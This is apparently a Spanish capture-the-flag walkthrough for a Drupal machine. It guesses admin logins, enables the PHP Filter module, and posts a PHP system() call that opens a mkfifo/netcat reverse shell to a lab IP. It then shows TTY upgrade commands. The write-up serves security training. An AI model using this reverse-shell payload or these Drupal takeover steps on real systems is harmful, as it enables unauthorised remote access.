 En el login del puerto 80 intentamos

- admin:admin
- admin:password
- admin:PencilKeyboardScanner123

Y la contraseña que hemos encontrado en el contenido del fichero `drupal.txt` funciona.



## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por Druppal {-}

Para ejecutar comandos o mejor dicho, para ganar accesso al sistema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter

    ```{r, echo = FALSE, fig.cap="Drupal - habilitar PHP Filter", out.width="90%"}
    knitr::include_graphics("images/drupal-phpfilter.png")
    ```

1. Crear un nuevo contenido

    ```{r, echo = FALSE, fig.cap="Drupal - Nuevo articulo", out.width="90%"}
    knitr::include_graphics("images/drupal-new-article.png")
    ```

1. Ponernos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview

Ya hemos ganado accesso al sistema como el usuario *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

